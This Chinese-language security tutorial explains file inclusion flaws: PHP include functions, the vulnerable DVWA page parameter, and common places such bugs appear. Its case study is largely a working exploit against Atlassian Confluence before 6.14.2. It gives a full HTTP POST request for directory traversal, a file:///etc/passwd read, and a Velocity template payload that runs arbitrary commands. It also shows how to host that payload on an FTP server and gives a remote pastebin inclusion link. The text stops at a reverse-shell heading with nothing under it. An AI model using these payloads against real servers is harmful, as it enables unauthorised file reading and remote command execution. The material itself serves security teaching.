










## 简介
文件包含漏洞是代码注入的一种。其原理就是注入一段用户能控制的脚本或代码，并让服务器端执行，代码注入的典型代表就是文件包含File inclusion。文件包含可能会出现在jsp、php、asp等语言中。服务器通过函数去包含任意文件时，由于要包含的这个文件来源过滤不严，而攻击者可以构造恶意文件在服务器上执行，获取服务器权限。
## 常见文件包含函数
`php`: include() 、include_once()、require()、require_once()、fopen()、readfile()
`jsp`: ava.io.file()、java.io.filereader()
`asp`: include file、include virtual
以php举例

- include：包含并运行指定文件，当包含外部文件发生错误时，系统给出警告，但整个php文件继续执行
- require：跟include唯一不同的是，当产生错误时候，include会继续运行而require停止运行
- include_once：这个函数跟include函数作用几乎相同，只是他在导入函数之前先检测下该文件是否被导入。如果已经执行一遍那么就不重复执行了
- require_once：这个函数跟require函数作用几乎相同，与include_once和include类似

php.ini配置文件：allow_url_fopen=off 即不可以包含远程文件。php4存在远程包含&本地包含，php5仅存在本地包含。
使用上面几个函数包含文件时，该文件将作为PHP代码执行，PHP内核并不在意被包含的文件是什么类型的。也就是说用这几个函数包含任何文件时，也会将其当做php文件来执行。
## 漏洞成因
程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次（抽离公共方法，这样做叫解耦，减少代码冗余度），于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件需要使用时进行包含调用
示例 DVWA中文件包含漏洞
在开启allow_url_fopen=on，allow_url_include=on 的时候，即允许远程文件包含

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```
包含本地文件：

包含远程文件：


## 漏洞挖掘场景

1. 引用外部文件，如script
2. 引用内部模板文件
3. 引用远程模板文件
4. 等等
## 案例
### 0x1 本地文件包含（引用内部模板文件）
在此处可以看到script标签里，引用了`vendor/jquery/jquery.min.js`，在此处可以看到外部链接由本地文件`download.php`处理，通过`f`参数，引用vendor中的js文件




### 0x2 远程文件包含配合SSTi RCE
Atlassian Confluence，在6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令

发送如下数据包

```http
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.93.131:8090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.93.131:8090
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fsettings%2Ffonts%2Ecfm; JSESSIONID=C7A2A62F69D9CF4D3F7F5391E601D109
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 163

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/123","width":"1000","height":"1000","_template":"../web.xml"}}}
```



6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用file:///etc/passwd来读取文件，也可以通过https://...来加载远程文件。



FTP加载远程文件

启动一个ftp服务器，将恶意文件放置在ftp服务器上

```shell
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

```shell
python -m pyftpdlib -p 2121 -i 0.0.0.0 [-u username -P [password]]
```



HTTPS 包含远程文件

```http
https://pastebin.com/raw/RyUvk1h8
```


反弹shell


